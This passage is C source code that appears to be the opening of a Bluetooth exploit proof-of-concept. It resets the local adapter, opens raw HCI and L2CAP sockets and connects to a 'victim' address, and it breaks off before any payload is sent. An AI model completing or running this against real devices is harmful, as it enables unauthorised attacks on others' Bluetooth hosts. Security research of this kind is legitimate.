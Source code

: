 ```c
  bdaddr_t dst_addr;
  str2ba(argv[1], &dst_addr);

  printf("[*] Resetting hci0 device...\n");
  system("sudo hciconfig hci0 down");
  system("sudo hciconfig hci0 up");

  printf("[*] Opening hci device...\n");
  struct hci_dev_info di;
  int hci_device_id = hci_get_route(NULL);
  int hci_socket = hci_open_dev(hci_device_id);
  if (hci_devinfo(hci_device_id, &di) < 0) {
    perror("hci_devinfo");
    return 1;
  }

  struct hci_filter flt;
  hci_filter_clear(&flt);
  hci_filter_all_ptypes(&flt);
  hci_filter_all_events(&flt);
  if (setsockopt(hci_socket, SOL_HCI, HCI_FILTER, &flt, sizeof(flt)) < 0) {
    perror("setsockopt(HCI_FILTER)");
    return 1;
  }

  int opt = 1;
  if (setsockopt(hci_socket, SOL_HCI, HCI_DATA_DIR, &opt, sizeof(opt)) < 0) {
    perror("setsockopt(HCI_DATA_DIR)");
    return 1;
  }

  printf("[*] Connecting to victim...\n");

  struct sockaddr_l2 laddr = {0};
  laddr.l2_family = AF_BLUETOOTH;
  laddr.l2_bdaddr = di.bdaddr;

  struct sockaddr_l2 raddr = {0};
  raddr.l2_family = AF_BLUETOOTH;
  raddr.l2_bdaddr = dst_addr;

  int l2_sock;

  if ((l2_sock = socket(PF_BLUETOOTH, SOCK_RAW, BTPROTO_L2CAP)) < 0) {
    perror("socket");
    return 1;
  }

  if (bind(l2_sock, (struct sockaddr *)&laddr, sizeof(laddr)) < 0) {
    perror("bind");
    return 1;
  }

  if (connect(l2_sock, (struct sockaddr *)&raddr, sizeof(raddr)) < 0) {
    perror("connect");
    return 1;
  }

  struct l2cap_conninfo l2_conninfo;
  socklen_t l2_conninfolen = sizeof(l2_conninfo);
  if (getsockopt(l2_sock, SOL_L2CAP, L2CAP_CONNINFO, &l2_conninfo, &l2_conninfolen) < 0) {
    perror("getsockopt");
    return 1;
```